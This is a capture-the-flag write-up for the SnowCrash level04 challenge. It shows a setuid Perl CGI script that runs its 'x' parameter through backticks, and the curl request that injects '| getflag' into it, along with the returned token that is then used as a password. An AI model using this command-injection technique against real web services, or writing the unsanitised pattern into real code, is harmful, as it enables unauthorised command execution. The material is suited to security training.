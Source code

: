 # level04

- We login as user level04.
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

level04@SnowCrash:~$ cat ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```


- Our home directory contains a Perl script that appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on `localhost:4747`.
The script calls the function `x()` with the parameter `x` retrieved from the CGI. The function `x()` `echo` the parameter it receives.
Therefore, if the parameter `x` is `| getflag`, this script will execute `echo | getflag`.
```
level04@SnowCrash:~$ netstat -tuln | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN
```


- There is indeed a service listening on all addresses through port 4747.
```
level04@SnowCrash:~$ curl -X POST -d "x=| getflag" http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

level04@SnowCrash:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```